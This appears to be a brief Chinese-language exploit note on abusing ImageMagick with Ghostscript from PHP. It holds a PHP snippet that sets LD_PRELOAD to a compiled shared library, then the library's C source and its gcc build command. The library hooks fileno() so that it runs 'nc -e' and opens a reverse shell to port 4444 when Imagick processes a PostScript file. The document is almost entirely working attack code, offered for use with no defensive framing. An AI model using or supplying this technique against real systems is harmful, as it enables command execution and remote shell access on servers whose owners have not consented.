 ```yaml
---
title: "imagemagick+GhostScript"
id: zhfly3465
---
```


## **imagemagick+GhostScript**

**exp**

```
<?php
putenv('LD_PRELOAD=/var/www/html/imag.so');
$img = new Imagick('/tmp/1.ps');
?> 
```

其中 imag.c文件需要编译，命令如下

```
gcc -shared -fPIC imag.c -o imag.so 
```

> imag.c代码

```
#include <stdlib.h>
#include <string.h>
void payload() {
  const char* cmd = "nc -e /usr/bin/zsh 127.0.0.1 4444";
  system(cmd);
}
int fileno() {
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
    payload();
} 
```